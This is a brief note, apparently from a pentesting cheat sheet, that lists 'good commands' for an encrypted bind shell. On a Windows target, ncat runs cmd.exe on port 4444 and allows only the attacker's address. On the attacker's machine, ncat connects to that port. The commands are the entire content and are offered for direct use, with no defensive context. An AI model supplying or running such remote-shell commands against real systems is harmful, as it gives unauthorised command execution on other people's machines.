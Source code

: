 Good commands

on target box

`ncat --exec cmd.exe --allow 10.0.0.4 -vnl 4444 --ssl`

on attacker

`ncat -v 10.0.0.22 4444 --ssl`
